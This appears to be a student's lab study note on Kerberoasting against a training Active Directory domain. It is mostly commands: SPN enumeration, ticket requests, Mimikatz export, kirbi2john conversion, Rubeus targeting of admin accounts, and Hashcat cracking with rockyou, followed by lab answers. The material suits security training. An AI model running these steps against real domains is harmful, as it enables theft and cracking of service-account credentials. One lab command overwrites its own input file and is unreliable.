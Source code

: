 # Kerberoasting - Semi Manual method
---
- Before t**ools such as `Rubeus` existed**, **stealing or forging Kerberos tickets was a complex, manual process**.
- As the tactic and defenses have evolved, **we can now perform Kerberoasting from Windows in multiple ways.**
- Let's begin with the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\)) binary to enumerate SPNs in the domain.

## Enumerating SPNs with setspn.exe
- `setspn.exe -Q */*`
- We will notice many different SPNs returned for the various hosts in the domain.
	- We will **focus on `user accounts` and ignore the computer accounts** returned by the tool.

## Targeting a Single User
- Next, using **PowerShell, we can request TGS tickets for an account** in the shell above and **load them into memory**
	- `Add-Type -AssemblyName System.IdentityModel`
	- `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
	  
	- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to **add a .NET framework class to our PowerShell session,** which can then be instantiated like any .NET framework object
	- The **`-AssemblyName` parameter** allows us to **specify an assembly that contains types that we are interested in using**
	- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different **classes for building security token services**
	  
	- We'll then use the **[New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object**
	- **We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class** to **create a security token** **and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session**

## Extracting Tickets from Memory with Mimikatz:
- `base64 /out:true`
- `kerberos::list /export  `
- If **we do not specify the `base64** /out:true` command, **Mimikatz will extract the tickets and write them to `.kirbi` files**

## Preparing the Base64 Blob for Cracking
- Next, w**e can take the base64 blob and remove new lines and white spaces since the output is column wrapped,** and we need it all on one line for the next step:
	- `echo "<base64 blob>" |  tr -d \\n `
- We can place the **above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.**

## Placing the Output into a File as .kirbi
- `cat encoded_file | base64 -d > sqldev.kirbi`

## Extracting the Kerberos Ticket using kirbi2john.py
- `python2.7 kirbi2john.py sqldev.kirbi`
- This will create a file called `crack_file`. **We then must modify the file a bit to be able to use Hashcat against the hash.**

## Modifiying crack_file for Hashcat
- `$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`

## Cracking the Hash with Hashcat
- `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt `

- If we **decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk.** 
- In this case, **- we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.**

# Automated / Tool Based Route
---
## Using PowerView to Enumerate SPN Accounts
- `Import-Module .\PowerView.ps1`
- `Get-DomainUser * -spn | select samaccountname`
- ![[Pasted image 20250809072806.png]]

## Using PowerView to Target a Specific User
- `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`
## Exporting All Tickets to a CSV File
- `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`
## Viewing the Contents of the .CSV File
- `cat .\ilfreight_tgs.csv`

# Using Rubeus
---
- `\Rubeus.exe`
- Some options include:
	- **Performing Kerberoasting** and outputting hashes to a file
	- Using alternate credentials
	- Performing **Kerberoasting combined with a pass-the-ticket attack**
	- Performing **"opsec" Kerberoasting to filter out AES-enabled accounts**
	- Requesting tickets for accounts passwords set between a specific date range
	- Placing a limit on the number of tickets requested
	- Performing **AES Kerberoasting**

## Using the /stats Flag:
- `.\Rubeus.exe kerberoast /stats`
- ![[Pasted image 20250809073347.png]]
- Let's use Rubeus to **request tickets for accounts with the `admincount` attribute set to `1`.**
- These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat.
- Be sure to **specify the `/nowrap` flag** so that the hash can be more **easily copied down for offline cracking using Hashcat.**
	- The **""/nowrap" flag prevents any base64 ticket blobs from being column wrapped** for any function

## Using the /nowrap Flag:
- `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`

- Kerberoasting tools **typically request `RC4 encryption` when performing the attack and initiating TGS-REQ requests**. 
- This is because **RC4 is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline** using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256.
- When performing Kerberoasting in most environments, **we will retrieve hashes that begin with `$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket.**
- Let's start by **creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out.** As we can see, we received the TGS ticket RC4 (type 23) encrypted:
	- `.\Rubeus.exe kerberoast /user:testspn /nowrap`

- Checking with PowerView, we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0`. The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.

- ` Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`

## Cracking the Ticket with Hashcat & rockyou.txt:
- `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt`

# LABS
----
=> What is the name of the service account with the SPN 'vmware/inlanefreight.local'? 
- `setspn.exe -Q */*`
- ![[Pasted image 20250809075415.png]]

=> Crack the password for this account and submit it as your answer. 
- `Import-Module .\PowerView.ps1`
- `Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat`
	- ![[Pasted image 20250809075520.png]]
- Copy this hash to a file to remove white spaces and new lines:
	- `cat svc_vmwaresso.hash | tr -d "\\n" | tr -d " " > svc_vmwaresso.hash`
	- ![[Pasted image 20250809075601.png]]
- Crack the hash using hashcat:
	- `hashcat svc_vmwaresso.hash /usr/share/wordlists/rockyou.txt`
	- ![[Pasted image 20250809075635.png]]